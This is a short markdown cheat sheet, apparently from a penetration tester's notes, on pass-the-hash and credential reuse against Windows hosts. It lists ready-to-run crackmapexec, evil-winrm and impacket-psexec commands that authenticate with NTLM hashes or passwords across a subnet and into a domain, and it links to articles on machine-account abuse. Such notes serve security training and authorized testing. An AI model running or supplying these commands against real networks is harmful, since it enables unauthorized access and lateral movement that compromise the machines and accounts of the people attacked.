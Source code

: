 # Pass-The-Hash

## with Local Accounts

```
crackmapexec smb 192.168.183.0/24 -u "Frank Castle" -H <hash> --local-auth
crackmapexec smb 192.168.183.137 -u "Frank Castle" -p Password1
crackmapexec smb 192.168.183.0/24 -u fcastle -d MARVEL.local -p Password1
evil-winrm -i '10.10.11.129' -u 'Sam.Davies' -p 'Password123'
impacket-psexec domain.local/administrator:MyPasswowrd123@10.10.10.100
```

## with Machine$ Accounts

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts" %}

{% embed url="https://pentestlab.blog/2022/02/01/machine-accounts/" %}
